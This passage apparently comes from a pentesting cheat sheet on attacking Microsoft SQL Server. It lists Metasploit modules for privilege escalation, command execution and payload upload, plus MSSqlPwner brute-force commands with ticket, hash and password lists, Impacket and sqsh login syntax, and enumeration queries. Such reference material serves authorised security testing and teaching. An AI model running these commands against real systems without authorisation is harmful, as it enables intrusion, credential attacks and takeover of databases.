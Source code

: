 ```bash

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```
### [**Brute force**](../../generic-hacking/brute-force.md#sql-server)

### मैन्युअल एन्यूमरेशन

#### Login

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt
```

```bash
# Using Impacket mssqlclient.py
mssqlclient.py [-db volume] <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
## Recommended -windows-auth when you are going to use a domain. Use as domain the netBIOS name of the machine
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>

# Using sqsh
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
## In case Windows Auth using "." as domain name for local user
sqsh -S <IP> -U .\\<Username> -P <Password> -D <Database>
## In sqsh you need to use GO after writting the query to send it
1> select 1;
2> go
```
#### सामान्य Enumeration
```sql
# Get version
select @@version;
# Get user
select user_name();
```